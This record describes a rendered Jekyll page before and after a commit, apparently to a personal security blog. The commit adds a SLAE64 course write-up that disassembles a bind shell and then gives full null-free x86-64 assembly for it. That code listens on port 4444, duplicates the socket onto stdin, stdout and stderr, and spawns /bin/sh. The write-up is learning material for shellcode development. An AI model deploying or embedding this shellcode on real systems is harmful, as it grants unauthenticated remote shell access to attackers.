

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2021-01-14-SLAE64-Null-Free-Bind.md, in a window 1280 px wide and 1400 px high, scrolled down 240 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2021-01-14-SLAE64-Null-Free-Bind.md

````diff
--- a/_posts/posts/2021-01-14-SLAE64-Null-Free-Bind.md
+++ b/_posts/posts/2021-01-14-SLAE64-Null-Free-Bind.md
@@ -22,4 +22,227 @@
 
 As in the [previous](https://whitecr0wz.github.io/posts/SLAE64-Bind-Password/) post exercise A was tackled, this post will be focused towards the seconodary task.
 
-Let's analyze the Bind Shell given
+Let's analyze the Bind Shell given during the course:
+
+```term
+whitecr0wz@SLAE64:~/assembly/assignments/Assignment_1/B/og$ objdump -D 1.o -M intel
+
+1.o:     file format elf64-x86-64
+
+Disassembly of section .text:
+
+
+0000000000000000 <_start>:
+   0:   b8 29 00 00 00          mov    eax,0x29
+   5:   bf 02 00 00 00          mov    edi,0x2
+   a:   be 01 00 00 00          mov    esi,0x1
+   f:   ba 00 00 00 00          mov    edx,0x0
+  14:   0f 05                   syscall
+  16:   48 89 c7                mov    rdi,rax
+  19:   48 31 c0                xor    rax,rax
+  1c:   50                      push   rax
+  1d:   89 44 24 fc             mov    DWORD PTR [rsp-0x4],eax
+  21:   66 c7 44 24 fa 11 5c    mov    WORD PTR [rsp-0x6],0x5c11
+  28:   66 c7 44 24 f8 02 00    mov    WORD PTR [rsp-0x8],0x2
+  2f:   48 83 ec 08             sub    rsp,0x8
+  33:   b8 31 00 00 00          mov    eax,0x31
+  38:   48 89 e6                mov    rsi,rsp
+  3b:   ba 10 00 00 00          mov    edx,0x10
+  40:   0f 05                   syscall
+  42:   b8 32 00 00 00          mov    eax,0x32
+  47:   be 02 00 00 00          mov    esi,0x2
+  4c:   0f 05                   syscall
+  4e:   b8 2b 00 00 00          mov    eax,0x2b
+  53:   48 83 ec 10             sub    rsp,0x10
+  57:   48 89 e6                mov    rsi,rsp
+  5a:   c6 44 24 ff 10          mov    BYTE PTR [rsp-0x1],0x10
+  5f:   48 83 ec 01             sub    rsp,0x1
+  63:   48 89 e2                mov    rdx,rsp
+  66:   0f 05                   syscall
+  68:   49 89 c1                mov    r9,rax
+  6b:   b8 03 00 00 00          mov    eax,0x3
+  70:   0f 05                   syscall
+  72:   4c 89 cf                mov    rdi,r9
+  75:   b8 21 00 00 00          mov    eax,0x21
+  7a:   be 00 00 00 00          mov    esi,0x0
+  7f:   0f 05                   syscall
+  81:   b8 21 00 00 00          mov    eax,0x21
+  86:   be 01 00 00 00          mov    esi,0x1
+  8b:   0f 05                   syscall
+  8d:   b8 21 00 00 00          mov    eax,0x21
+  92:   be 02 00 00 00          mov    esi,0x2
+  97:   0f 05                   syscall
+  99:   48 31 c0                xor    rax,rax
+  9c:   50                      push   rax
+  9d:   48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f2f6e69622f
+  a4:   2f 73 68
+  a7:   53                      push   rbx
+  a8:   48 89 e7                mov    rdi,rsp
+  ab:   50                      push   rax
+  ac:   48 89 e2                mov    rdx,rsp
+  af:   57                      push   rdi
+  b0:   48 89 e6                mov    rsi,rsp
+  b3:   48 83 c0 3b             add    rax,0x3b
+  b7:   0f 05                   syscall
+```
+
+It seems as this assembly program has a great quantity of null opcodes. However, if we pay close attention, we may notice that most of these come from mov instructions. For
+instance, when a single byte such as 1 is being inserted into a 64-bit register such as RAX, a lot of nulls will be parsed as well. This could easily be circumvented by pushing
+such bytes as WORDs and then saving such values in Lower 16 bit registers such as ax, bx, dx, bp, and so forth.
+
+Other techniques could be simply implement using a lower bit register such as Lower 8-bits instead of 64-bits when it comes to small operations.
+
+Final code:
+
+```term
+global _start
+
+
+_start:
+
+        ; sock = socket(AF_INET, SOCK_STREAM, 0)
+        ; AF_INET = 2
+        ; SOCK_STREAM = 1
+        ; syscall number 41
+
+        xor rax, rax
+        xor rdi, rdi
+        xor rsi, rsi
+
+        mov al, 41
+
+        inc rdi
+        inc rdi
+
+        inc rsi
+
+        xor rdx, rdx
+
+        syscall
+
+        ; copy socket descriptor to rdi for future use
+
+        mov rdi, rax
+
+
+        ; server.sin_family = AF_INET
+        ; server.sin_port = htons(PORT)
+        ; server.sin_addr.s_addr = INADDR_ANY
+        ; bzero(&server.sin_zero, 8)
+
+        xor rax, rax
+
+        push rax
+
+        xor rbp, rbp
+
+        push word 2
+        pop bp
+
+        mov dword [rsp-4], eax
+        mov word [rsp-6], 0x5c11
+        mov word [rsp-8], bp
+        sub rsp, 8
+
+
+        ; bind(sock, (struct sockaddr *)&server, sockaddr_len)
+        ; syscall number 49
+
+        mov al, 49
+
+        mov rsi, rsp
+        mov dl, 16
+        syscall
+               ; listen(sock, MAX_CLIENTS)
+        ; syscall number 50
+
+        push word 2
+        pop bp
+
+        mov al, 50
+        mov rsi, rbp
+        syscall
+
+
+        ; new = accept(sock, (struct sockaddr *)&client, &sockaddr_len)
+        ; syscall number 43
+
+
+        mov al, 43
+        sub rsp, 16
+        mov rsi, rsp
+        mov byte [rsp-1], 16
+        sub rsp, 1
+        mov rdx, rsp
+
+        syscall
+
+        ; store the client socket description
+        mov r9, rax
+
+        ; close parent
+
+        mov al, 3
+        syscall
+
+        ; duplicate sockets
+
+        ; dup2 (new, old)
+        mov rdi, r9
+        mov al, 33
+
+        xor rsi, rsi
+
+        syscall
+
+        mov al, 33
+
+        push word 1
+        pop bp
+
+        mov rsi, rbp
+        syscall
+
+        mov al, 33
+
+        push word 2
+        pop bp
+
+        mov rsi, rbp
+
+        syscall
+
+        ; execve
+
+        ; First NULL push
+
+        xor rax, rax
+        push rax
+
+        ; push /bin//sh in reverse
+
+        mov rbx, 0x68732f2f6e69622f
+        push rbx
+
+        ; store /bin//sh address in RDI
+
+        mov rdi, rsp
+
+        ; Second NULL push
+        push rax
+
+        ; set RDX
+        mov rdx, rsp
+
+
+        ; Push address of /bin//sh
+        push rdi
+
+        ; set RSI
+
+        mov rsi, rsp
+
+        ; Call the Execve syscall
+        add rax, 59
+        syscall
+```
````
